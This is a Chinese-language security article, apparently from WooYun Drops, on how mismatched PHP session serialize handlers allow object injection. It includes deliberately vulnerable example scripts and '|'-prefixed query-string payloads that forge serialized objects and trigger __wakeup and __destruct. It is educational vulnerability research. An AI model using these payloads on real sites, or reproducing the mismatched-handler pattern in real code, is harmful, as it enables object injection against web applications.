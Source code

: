 # PHP Session 序列化及反序列化处理器设置使用不当带来的安全隐患 ![](img/img1_u143_png.jpg)

2014/11/14 15:05 | [Ryat](http://drops.wooyun.org/author/Ryat "由 Ryat 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## PHP Session 序列化及反序列化处理器

* * *

PHP 内置了多种处理器用于存取 $_SESSION 数据时会对数据进行序列化和反序列化，常用的有以下三种，对应三种不同的处理格式：

| 处理器 | 对应的存储格式 |
| --- | --- |
| php | 键名 ＋ 竖线 ＋ 经过 serialize() 函数反序列处理的值 |
| php_binary | 键名的长度对应的 ASCII 字符 ＋ 键名 ＋ 经过 serialize() 函数反序列处理的值 |
| php_serialize (php>=5.5.4) | 经过 serialize() 函数反序列处理的数组 |

## 配置选项 session.serialize_handler

* * *

PHP 提供了 session.serialize_handler 配置选项，通过该选项可以设置序列化及反序列化时使用的处理器：

`session.serialize_handler   "php"   PHP_INI_ALL`

## 安全隐患

通过上面对存储格式的分析，如果 PHP 在反序列化存储的 $_SESSION 数据时的使用的处理器和序列化时使用的处理器不同，会导致数据无法正确反序列化，通过特殊的构造，甚至可以伪造任意数据：）

```
$_SESSION['ryat'] = '|O:8:"stdClass":0:{}'; 
```

例如上面的 $_SESSION 数据，在存储时使用的序列化处理器为 php_serialize，存储的格式如下：

```
a:1:{s:4:"ryat";s:20:"|O:8:"stdClass":0:{}";} 
```

在读取数据时如果用的反序列化处理器不是 php_serialize，而是 php 的话，那么反序列化后的数据将会变成：

```
// var_dump($_SESSION);
array(1) {
  ["a:1:{s:4:"ryat";s:20:""]=>
  object(stdClass)#1 (0) {
  }
}

```

可以看到，通过注入 `|` 字符伪造了对象的序列化数据，成功实例化了 stdClass 对象：）

## 实际利用

* * *

### i）当 session.auto_start＝On 时：

当配置选项 session.auto_start＝On，会自动注册 Session 会话，因为该过程是发生在脚本代码执行前，所以在脚本中设定的包括序列化处理器在内的 session 相关配选项的设置是不起作用的，因此一些需要在脚本中设置序列化处理器配置的程序会在 session.auto_start＝On 时，销毁自动生成的 Session 会话，然后设置需要的序列化处理器，再调用 session_start() 函数注册会话，这时如果脚本中设置的序列化处理器与 php.ini 中设置的不同，就会出现安全问题，如下面的代码：

```
//foo.php

if (ini_get('session.auto_start')) {
    session_destroy();
}

ini_set('session.serialize_handler', 'php_serialize');
session_start();

$_SESSION['ryat'] = $_GET['ryat'];

```

当第一次访问该脚本，并提交数据如下：

```
foo.php?ryat=|O:8:"stdClass":0:{} 
```

脚本会按照 php_serialize 处理器的序列化格式存储数据：

```
a:1:{s:4:"ryat";s:20:"|O:8:"stdClass":0:{}";} 
```

当第二次访问该脚本时，PHP 会按照 php.ini 里设置的序列化处理器反序列化存储的数据，这时如果 php.ini 里设置的是 php 处理器的话，将会反序列化伪造的数据，成功实例化了 stdClass 对象：）

这里需要注意的是，因为 PHP 自动注册 Session 会话是在脚本执行前，所以通过该方式只能注入 PHP 的内置类。

### ii）当 session.auto_start＝Off 时：

当配置选项 session.auto_start＝Off，两个脚本注册 Session 会话时使用的序列化处理器不同，就会出现安全问题，如下面的代码：

```
//foo1.php

ini_set('session.serialize_handler', 'php_serialize');
session_start();

$_SESSION['ryat'] = $_GET['ryat'];

//foo2.php

ini_set('session.serialize_handler', 'php');
//or session.serialize_handler set to php in php.ini 
session_start();

class ryat {
    var $hi;

    function __wakeup() {
        echo 'hi';
    }
    function __destruct() {
        echo $this->hi;
    }
}

```

当访问 foo1.php 时，提交数据如下：

```
foo1.php?ryat=|O:4:"ryat":1:{s:2:"hi";s:4:"ryat";} 
```

脚本会按照 php_serialize 处理器的序列化格式存储数据，访问 foo2.php 时，则会按照 php 处理器的反序列化格式读取数据，这时将会反序列化伪造的数据，成功实例化了 ryat 对象，并将会执行类中的 __wakeup 方法和 __destruct 方法：）

### iii）其他利用方式？

请自行发掘：）

from:[`www.80vul.com/pch/pch-013.txt`](http://www.80vul.com/pch/pch-013.txt)

版权声明：未经授权禁止转载 [Ryat](http://drops.wooyun.org/author/Ryat "由 Ryat 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [PHP WDDX Serializier Data Injection Vulnerability](http://drops.wooyun.org/tips/3911)
*   [Codeigniter 利用加密 Key（密钥）的对象注入漏洞](http://drops.wooyun.org/papers/1449)
*   [理解 php 对象注入](http://drops.wooyun.org/papers/4820)
*   [waf 绕过的技巧](http://drops.wooyun.org/tips/132)
*   [PHP 绕过 open_basedir 列目录的研究](http://drops.wooyun.org/tips/3978)
*   [PHP 安全编码](http://drops.wooyun.org/tips/135)